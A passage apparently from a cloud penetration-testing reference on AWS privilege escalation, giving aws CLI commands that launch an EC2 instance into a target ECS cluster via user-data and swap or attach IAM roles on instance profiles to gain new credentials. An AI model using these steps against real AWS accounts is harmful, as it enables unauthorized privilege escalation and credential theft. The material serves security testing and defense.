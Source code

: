 ```bash
aws ec2 run-instances \
    --image-id ami-07fde2ae86109a2af \
    --instance-type t2.micro \
    --iam-instance-profile <ECS_role> \
    --count 1 --key-name pwned \
    --user-data "file:///tmp/asd.sh"

# Make sure to use an ECS optimized AMI as it has everything installed for ECS already (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# The EC2 instance profile needs basic ECS access
# The content of the user data is:
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```

To learn how to **force ECS services to be run** in this new EC2 instance check:

{{#ref}}
../aws-ecs-privesc/README.md
{{#endref}}

If you **cannot create a new instance** but has the permission `ecs:RegisterContainerInstance` you might be able to register the instance inside the cluster and perform the commented attack.

**Potential Impact:** Direct privesc to ECS roles attached to tasks.

### **`iam:PassRole`,** **`iam:AddRoleToInstanceProfile`**

Similar to the previous scenario, an attacker with these permissions could **change the IAM role of a compromised instance** so he could steal new credentials.\
As an instance profile can only have 1 role, if the instance profile **already has a role** (common case), you will also need **`iam:RemoveRoleFromInstanceProfile`**.

```bash
# Removing role from instance profile
aws iam remove-role-from-instance-profile --instance-profile-name <name> --role-name <name>

# Add role to instance profile
aws iam add-role-to-instance-profile --instance-profile-name <name> --role-name <name>
```

If the **instance profile has a role** and the attacker **cannot remove it**, there is another workaround. He could **find** an **instance profile without a role** or **create a new one** (`iam:CreateInstanceProfile`), **add** the **role** to that **instance profile** (as previously discussed), and **associate the instance profile** compromised to a compromised i**nstance:**

- If the instance **doesn't have any instance** profile (`ec2:AssociateIamInstanceProfile`)

```bash
aws ec2 associate-iam-instance-profile --iam-instance-profile Name=<value> --instance-id <value>
```

**Potential Impact:** Direct privesc to a different EC2 role (you need to have compromised a AWS EC2 instance and some extra permission or specific instance profile status).
